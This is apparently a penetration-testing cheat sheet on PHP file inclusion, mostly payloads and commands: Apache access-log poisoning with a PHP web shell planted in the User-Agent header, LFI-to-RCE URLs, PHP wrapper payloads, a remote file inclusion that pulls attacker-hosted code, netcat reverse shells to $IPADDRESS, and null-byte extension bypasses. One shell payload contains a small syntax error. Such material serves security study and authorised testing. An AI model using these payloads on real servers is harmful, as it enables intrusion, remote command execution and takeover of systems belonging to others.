 # File Inclusion

## Local File Inclusion

> The Local File Inclusion vulnerability allows an attacker to read a file from the vulnerable server (Directory Traversal), which occurs due to a programming error on the page. This vulnerability can lead the attacker to:
RCE, XSS, DOS...


Once identified a Directory Traversal vulnerability, we can try RCE using various techniques.
_____
### LFI Apache Poisoning Logs

#### Identifying Access log location

In order to execute this type of attack, it's crucial to identify the OS of the web server or the access log file location. Common Apache access file locations are:

* **RHEL/Red Hat/CentOS/Fedora Linux :** /var/log/httpd/access_log

* **FreeBSD Apache access log file location:** /var/log/httpd-access.log

* **Debian/Ubuntu Linux:** /var/log/apache2/access.log

* **Windows:** c:\xampp\apache\logs\access.log

#### Adding code in the log file

We can use nc or Burpsuite to create an invalid request that will be saved in the log file containing our payload:

```bash
#Connect to the server using Netcat and execute a bad request:
<?php echo '<pre>' . shell_exec($_GET['cmd']) . </pre>;?>
#Using Burpsuide, change User-Agent header like (insert in the middle):
User-Agent: Mozilla/5.0 <?php echo '<pre>' . shell_exec($_GET['cmd']) . </pre>;?> Gecko/210001310314 Firefox.....
```

#### RCE

Once the payload is in the log file it's time to search the file using the Directory Traversal vulnerability to find the log file and set a value to the "cmd" parameter which will execute system commands:

```bash
#Execute system commands (change $SYSTEMCOMMAND):
.php?file=c:\xampp\apache\logs\access.log&cmd=$SYSTEMCOMMAND
#Reverse shell using netcat:
.php?file=c:\xampp\apache\logs\access.log&cmd=nc.exe -e cmd.exe $IPADDRESS $PORT
```

#### Wrappers

PHP provides protocol ["wrappers"](https://www.php.net/manual/en/wrappers.php) that we can use to exploit Directory Traversal or LFI vulnerabilities.

```bash
.php?file=expect://whoami

.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>

.php?page=data:text/plain;,<?php echo shell_exec("whoami");?>
```

#### LFI to RCE with SMTP

Check ippsec video on "Beep HTB Machine"
 _____
 _____

## Remote File Inclusion

Same as LFI but referencing external scripts:

```bash
#Example:
.php?file=http://$IPADDRESS/$FILE.txt
#Content of $FILE can be (make the file with .txt extension but containing the php code inside):
<?php echo shell_exec("nc.exe $IPADDRESS $PORT -e cmd.exe") ?>
<?php echo shell_exec($_GET['cmd']) ?>
```

#### RCE

```bash
.php?file=http://$IPADDRESS/$FILE.txt&cmd=$COMMAND
```

_____

## Bypass file extensions

If there is a server side adding extensions to files (like .php), we can try to use Null byte (%00) or question mark (?) to bypass:

```bash
.php?file=http://$IPADDRESS/$FILE.txt%00
.php?file=http://$IPADDRESS/$FILE.txt?
```

[Awakened 1712 github](https://awakened1712.github.io/oscp/oscp-lfi-rfi/)
